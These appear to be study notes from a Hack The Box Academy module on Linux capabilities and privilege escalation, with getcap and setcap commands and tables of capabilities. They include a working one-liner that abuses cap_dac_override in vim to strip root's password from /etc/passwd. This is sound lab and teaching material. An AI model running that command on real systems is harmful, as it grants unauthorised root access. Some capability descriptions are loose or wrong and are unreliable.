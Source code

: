 # Capabilities

Important note by htb acadmy.

## Command

```bash

## Finding Capbility
$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;

## Set Capbility
$ sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic

## Enumerating Capabilities
$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;

## Example for cap_dac_override
$ getcap /usr/bin/vim.basic
/usr/bin/vim.basic cap_dac_override=eip

$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
$ cat /etc/passwd | head -n1
```

## Capability Description

|**Capability**|**Description**|
| ------| -----------------------------------------------------------------------------------------------------------------------------------------------------------|
|​`cap_sys_admin`​|Allows to perform actions with administrative privileges, such as modifying system files or changing system settings.|
|​`cap_sys_chroot`​|Allows to change the root directory for the current process, allowing it to access files and directories that would otherwise be inaccessible.|
|​`cap_sys_ptrace`​|Allows to attach to and debug other processes, potentially allowing it to gain access to sensitive information or modify the behavior of other processes.|
|​`cap_sys_nice`​|Allows to raise or lower the priority of processes, potentially allowing it to gain access to resources that would otherwise be restricted.|
|​`cap_sys_time`​|Allows to modify the system clock, potentially allowing it to manipulate timestamps or cause other processes to behave in unexpected ways.|
|​`cap_sys_resource`​|Allows to modify system resource limits, such as the maximum number of open file descriptors or the maximum amount of memory that can be allocated.|
|​`cap_sys_module`​|Allows to load and unload kernel modules, potentially allowing it to modify the operating system's behavior or gain access to sensitive information.|
|​`cap_net_bind_service`​|Allows to bind to network ports, potentially allowing it to gain access to sensitive information or perform unauthorized actions.|

## Capability Values


|**Capability Values**|**Description**|
| ------| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|​`=`​|This value sets the specified capability for the executable, but does not grant any privileges. This can be useful if we want to clear a previously set capability for the executable.|
|​`+ep`​|This value grants the effective and permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability.|
|​`+ei`​|This value grants sufficient and inheritable privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows and child processes spawned by the executable to inherit the capability and perform the same actions.|
|​`+p`​|This value grants the permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. This can be useful if we want to grant the capability to the executable but prevent it from inheriting the capability or allowing child processes to inherit it.|

‍

Several Linux capabilities can be used to escalate a user's privileges to `root`​, including:

|**Capability**|**Desciption**|
| ------| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|​`cap_setuid`​|Allows a process to set its effective user ID, which can be used to gain the privileges of another user, including the `root`​ user.|
|​`cap_setgid`​|Allows to set its effective group ID, which can be used to gain the privileges of another group, including the `root`​ group.|
|​`cap_sys_admin`​|This capability provides a broad range of administrative privileges, including the ability to perform many actions reserved for the `root`​ user, such as modifying system settings and mounting and unmounting file systems.|
|​`cap_dac_override`​|Allows bypassing of file read, write, and execute permission checks.|

‍
